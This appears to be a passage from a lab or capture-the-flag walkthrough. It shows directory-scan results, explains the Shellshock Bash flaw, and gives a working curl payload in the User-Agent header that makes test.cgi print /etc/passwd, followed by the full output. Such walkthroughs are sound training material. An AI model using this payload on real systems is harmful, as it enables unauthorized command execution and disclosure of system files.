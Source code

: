 /.htm.sh              (Status: 403) [Size: 295]
/.htm.pl              (Status: 403) [Size: 295]
/.htm.py              (Status: 403) [Size: 295]
/.htm.php             (Status: 403) [Size: 296]
/test.cgi             (Status: 200) [Size: 13]
/.                    (Status: 403) [Size: 288]
/.htaccess            (Status: 403) [Size: 297]
/.htaccess.php        (Status: 403) [Size: 301]
/.htaccess.py         (Status: 403) [Size: 300]
/.htaccess.cgi        (Status: 403) [Size: 301]
/.htaccess.pl         (Status: 403) [Size: 300]
/.htaccess.sh         (Status: 403) [Size: 300] </code></pre>

The Shellshock vulnerability (CVE-2014-6271) in the test.cgi file, affects the way Bash handles environment variables. This vulnerability allows arbitrary commands to be executed if certain environment variables are set correctly.

When a CGI script (e.g., test.cgi) is executed, it can access environment variables defined by the web server. CGI scripts often receive and process data from HTTP requests, and HTTP headers are often used to define environment variables that the script then executes.

Bash, when executing a script, evaluates the environment variables. Shellshock takes advantage of the fact that Bash does not properly validate the data in the environment variables before executing them. If a command is included in the declaration of an environment variable, Bash will execute it as part of the process.

to check this vulnerability I am going to run the following command, which should allow me to read /etc/passwd
<pre><code> curl -A "() { :;}; echo Content-Type: text/html; echo; /bin/cat /etc/passwd;" http://10.10.101.200/cgi-bin/test.cgi

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
libuuid:x:100:101::/var/lib/libuuid:
syslog:x:101:104::/home/syslog:/bin/false
messagebus:x:102:105::/var/run/dbus:/bin/false
ryan:x:1000:1000:Ubuntu 14.04.1,,,:/home/ryan:/bin/bash
sshd:x:103:65534::/var/run/sshd:/usr/sbin/nologin </code></pre>
